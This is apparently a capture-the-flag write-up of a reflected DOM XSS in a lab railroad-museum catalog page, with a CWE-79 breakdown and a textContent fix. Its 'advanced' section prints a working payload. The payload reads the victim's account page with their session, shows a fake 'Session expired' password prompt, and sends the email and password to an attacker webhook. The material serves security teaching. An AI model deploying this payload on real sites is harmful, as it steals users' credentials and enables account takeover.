






# The Roundhouse Society — Reflected DOM XSS

Challenge link: https://dashboard.webverselabs-pro.com/challenges/flag-stop


## Overview

The Roundhouse Society is a small heritage-railroad museum, chartered in 1973 and run almost entirely by volunteers. Three operating steam locomotives, a working roundhouse, weekend service April through October, admission $14. A retired signals engineer rewrote the catalog page over a winter — he was proud that the server stayed dumb and the "live feel" of the search box ran entirely in the visitor's browser. The URL, he liked to point out, was the whole state of the page.


## Enumeration

Navigating to `/catalog.php` reveals an interactive search box. Searching for locomotive returns results, and inspecting the source shows how it works.



The results are rendered by `/static/catalog.js`, which reads the `?q=` parameter directly from `location.search` and writes it into the DOM without any sanitization:

```
header.innerHTML = 'Results for "' + q + '"';
```

Anything in `?q=` is written raw into `innerHTML`, a classic reflected XSS sink.

There is also a `poll.js` script running in the background that polls `/__status.php` every 2 seconds and reveals the flag once an XSS payload is detected firing.


## Basic PoC

We can use a very simple DOM XSS poc to confirm the vulnerability and obtain the flag:

```

```

The `src=1` is intentionally invalid, which fires the `onerror` handler and calls `alert(1)`. The browser pops an alert box confirming JavaScript execution in the context of the page.



We can then **OK** out of it and obtain the flag:




## Advanced PoC (Real Credential Harvesting)

A bare `alert(1)` proves execution exists, but doesn't demonstrate real-world impact. A more realistic attack could fetch the victim's account details from `/account.php` page using their active session cookie, then render a convincing **"Session expired"** overlay to harvest their password.

Since the victim is already logged in, a same-origin `fetch('/account.php', {credentials:'include'})` returns their full account details. Since there are no CSRF tokens present, no additional auth is required.



We can then extract their email address to make the alert more convincing, along with giving us the necessary info for what account the password belongs to. The account page renders user details in a `.rh-table` spec table. We parse the fetched HTML with `DOMParser` and walk the rows to find the `Email address` field:

```
var doc = new DOMParser().parseFromString(html, 'text/html');
var rows = doc.querySelectorAll('.rh-table tr');
var email = '';
rows.forEach(r => {
  if (r.querySelector('th') && r.querySelector('th').textContent.includes('Email'))
    email = r.querySelector('td').textContent.trim();
});
```

Next, a full-screen modal is injected into the DOM. It greets the victim by their own email address, making it appear legitimate. On submission, the user's credentials are sent to an attacker-controlled listener:

```
fetch(`https://webhook.site/<WEBHOOK_ID>/?u=` + email + `&p=` + document.getElementById('xpw').value)
```

The full payload would look something like this:
```
r.text())
.then(html=>{
var doc=new DOMParser().parseFromString(html,'text/html');
var rows=doc.querySelectorAll('.rh-table tr');
var email='';
rows.forEach(r=>{if(r.querySelector('th')&&r.querySelector('th').textContent.includes('Email'))email=r.querySelector('td').textContent.trim()});
var o=document.createElement('div');
o.setAttribute('style','position:fixed;top:0;left:0;width:100%;height:100%;background:rgba(0,0,0,0.8);z-index:9999;display:flex;align-items:center;justify-content:center');
var b=document.createElement('div');
b.setAttribute('style','background:#fff;padding:32px;width:320px;font-family:sans-serif;border-radius:4px;text-align:center');
b.innerHTML='<h3 style=margin-top:0>Session expired</h3><p style=font-size:14px>Please re-enter the password for <strong>'+email+'</strong> to continue.</p><input id=xpw type=password placeholder=Password style=width:100%;padding:8px;box-sizing:border-box><br><br><button onclick=fetch(`https://webhook.site/<WEBHOOK_ID>/?u='+email+'&p=`+document.getElementById(`xpw`).value);o.remove() style=background:#222;color:#fff;border:none;padding:10px 20px;cursor:pointer;width:100%>Continue</button>';
o.appendChild(b);document.body.appendChild(o)
})">
```



The overlay renders over the full page and pre-fills the victim's real email address, significantly increasing believability.

## Result

When the victim enters their password and clicks **Continue**, their credentials are sent to the attacker's webhook:



The attacker can then use those credentials to log in and fully take over the account.


## Vulnerability Breakdown

**Reflected DOM-based XSS (CWE-79):** the `?q=` parameter is written directly into `innerHTML` with no encoding or sanitization. Any HTML or JavaScript in the query string executes in the victim's browser under the site's origin.

The root cause is one line in `catalog.js`:

```
header.innerHTML = 'Results for "' + q + '"';
```

The fix is to use textContent instead of innerHTML for user-supplied input, or to HTML-encode the value before insertion:

```
header.textContent = 'Results for "' + q + '"';
```

**Impact escalation via same-origin fetch:** because the XSS runs under the site's origin, it can make credentialed requests to any same-origin endpoint (in this case `/account.php`) and read the response. This turns a reflected XSS into an authenticated data exfiltration primitive without requiring any additional vulnerabilities